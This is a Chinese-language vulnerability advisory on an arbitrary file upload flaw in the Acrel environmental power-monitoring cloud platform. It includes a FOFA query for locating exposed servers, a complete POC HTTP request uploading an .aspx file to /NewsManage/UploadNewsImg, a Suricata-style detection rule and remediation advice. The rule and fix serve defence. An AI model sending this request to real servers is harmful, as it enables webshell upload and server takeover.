

# 安科瑞环保用电监管云平台 UploadNewsImg 存在任意文件上传漏洞

安科瑞环保用电监管云平台 UploadNewsImg 存在任意文件上传漏洞，攻击者可执行任意命令导致服务器被控。

# 影响版本

安科瑞环保用电监管云平台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="myCss/phone.css"

POC/EXP：

```
POST /NewsManage/UploadNewsImg HTTP/1.1
Host: 127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1v98KI1jc9w1bG97
Cache-Control: no-cache
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2309.372 Safari/537.36

------WebKitFormBoundary1v98KI1jc9w1bG97
Content-Disposition: form-data; name="file"; filename="ads96qq.aspx"

testtest12346844
------WebKitFormBoundary1v98KI1jc9w1bG97--
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"安科瑞环保用电监管云平台 - /NewsManage/UploadNewsImg 任意文件上传 (aspx)";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/NewsManage/UploadNewsImg";
        fast_pattern;
    http.content_type; content:"multipart/form-data";
    http.request_body;
        content:"Content-Disposition: form-data; name=\"file\"";
        content:"filename=\""; distance:0; nocase;
        content:".aspx"; distance:0; nocase;
    metadata:
        service http,
        affected_product "安科瑞 环保用电监管云平台",
        vulnerability_type "Unrestricted File Upload / Webshell Upload",
        severity "critical";
    classtype:web-application-attack;
    sid:1000776;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
